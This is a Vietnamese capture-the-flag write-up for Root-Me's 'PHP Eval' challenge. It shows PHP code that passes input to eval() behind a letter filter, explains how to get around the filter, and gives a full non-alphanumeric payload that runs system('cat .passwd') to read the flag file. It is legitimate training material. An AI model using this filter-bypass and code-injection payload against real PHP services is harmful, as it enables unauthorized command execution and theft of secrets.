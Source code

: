 # PHP Eval

**Tên challenge:**  Non-alphanumeric PHP Code

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval)

**Tác giả challenge:** chmod

**Mục tiêu challenge:** Find a vulnerability in this service and exploit it. The flag is in .passwd file.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, Website có giao diện khá đơn giản, chỉ có 1 tính năng Input duy nhất:

![alt text](./images/image.png)

Ngoài ra, ta còn được cung cấp Source Code như sau:
```
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>
```


Dựa vào Source Code, ta có thể xác định ngay lổ hổng nằm ở đoạn:
```
eval('print '.$_POST['input'].";");
```
**Giải thích:**
* Hàm `eval` trong PHP là một hàm đặc biệt cho phép thực thi mã PHP được truyền dưới dạng chuỗi.

**VD:**
```
$code = 'echo "Hello, World!";';
eval($code);  // Kết quả: Hello, World!
```

Thông thường đến đây, ta chỉ việc đưa vào input `1; system("cat .passwd")` thì đoạn code `eval` trong Source sẽ có dạng:
```
eval(" print 1; system("cat .passwd"); ")
```

Tuy nhiên, ta đã bị filter từ `[ a -> z ]` và `[ A -> Z ]` do đoạn `preg_match` sau xử lý:
```
if(!preg_match('/[a-zA-Z`]/', $_POST['input']))
```
=> Ta không thể inject input payload trên.

Vậy thì ta phải làm sao để thực thi được Command và đọc file `.passwd` nếu không thể nhập được chữ cái ?

**Trả lời:**
* Sau khi đọc và tìm hiểu thì tôi tìm ra tài liệu có thể giúp Bypass được điều này: [Link](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)
* Cụ thể, ta sẽ sử dụng những ký tự như `$`, `_`, `;`, `.`,... thay cho các chữ cái.
* **VD:** Trong PHP, ta có: `$a = 'Z'` thì khi ta `$a++` => `$a` sẽ trở thành `AA` thay vì là `[` như trong ngôn ngữ C.
* Tương tự nếu: `$a = 'A'` thì khi ta `$a++` => `$a` sẽ thành `B`. Nó chỉ trở thành `AA` khi mà nó mang giá trị `Z` cuối cùng trong bảng chữ cái, khi đó nếu mình tăng tiến `++` 1 giá trị của nó lên thì nó sẽ trở thành `AA`, nếu tiếp tục `++` thì thành `AB`, cứ vậy nối tiếp.

Ví dụ cụ thể hơn ta có 1 đoạn code như sau:
```
<?php

$_=[];

$_=@"$_"; // $_='Array';

$_=$_['!'=='@']; // $_=$_[0];

$___=$_; // A

$__=$_;

$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;

$___.=$__; // AS


?>
```
<u>**Giải thích chi tiết:**</u>
* `$_=[]`: Dòng này dùng để khai báo biến `$_` có giá trị mảng `[]`
* `$_=@"$_"`: Dòng này dùng để biến giá trị mảng `[]` thành chữ `Array`, nghĩa là biến `$_` lúc bấy giờ sẽ có giá trị string là `Array` ( `$_ = "Array"` )
* `$_=$_['!'=='@']`: Dòng này để gán biến `$_` thành giá trị đầu tiên `A` trong chuỗi string `Array`. Nó giống như đoạn code sau đây
```
$mot = "Abc";
$mot = $mot[0]; // $mot = "A";
```
* Thì `['!'=='@']` trong đoạn code trên là so sánh `XOR`, vì 2 thằng khác nhau nên giá trị sẽ trả về 0. Thực ra thì ta cũng có thể để thẳng là `[0]` luôn.
* `$___=$_`: Vì bấy giờ biến `$_` đã mang giá trị `A` nên mình khởi tạo 1 biến mới `$___` để tiếp nhận giá trị của `$_`, nghĩa là lúc này cả 2 biến `$_` và `$___` đều mang giá trị `A`.
* `$__=$_`: Giống như trên, ta khởi tạo 1 biến mới `$__` và gán cho nó giá trị `A` của biến `$_`.
* `$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;`: Đoạn code này là lấy giá trị của biến vừa khởi tạo ở trên rồi tịnh tiến `++` nó 18 lần. Nghĩa là giá trị `A` lúc này được `++` 18 lần là thành `S` => `$__` = `S`
* `$___.=$__`: Đoạn code này là nối đoạn, nó giống với `$a += $b // $a = $a + $b`. Thay vì `+` thì chỗ này nối đoạn là dấu `.` thôi. `$___` mang giá trị `A`, nối đoạn với giá trị `S` của `$__` => `$___` lúc bấy giờ sẽ mang giá trị là `AS`

=> Chỉ cần nắm được phần giải thích trên là ta có thể tự tạo riêng payload của mình.

**B2:** Thử payload `1;SYSTEM(STRTOLOWER("CAT .PASSWD")))`
```
1;$_=[];
$_=@"$_"; 
$_=$_['!'=='@']; ;
$___=$_; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__;
$__=$_;

$_____ = '';
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;

$____='';
++$__;++$__;
$____.=$__;
$__=$_;
$____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$____.=$__;
$__=$_;

$______='.';
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
++$__;++$__;++$__;
$______.=$__;
$__=$_;
$__________ = $____." ".$______ ;
$___($_____("$__________"))
```
Có thể input trực tiếp qua Website hoặc là dùng Burp-suite rồi URL encode để đảm bảo không xảy ra lỗi.

![alt text](./images/image-1.png)

=> Ta đã thành công đọc được file `.passwd`

**Lưu ý:** `1` không nằm trong file `.passwd` nhé. `1` là giá trị `1;` mà `eval()` đã print ra.

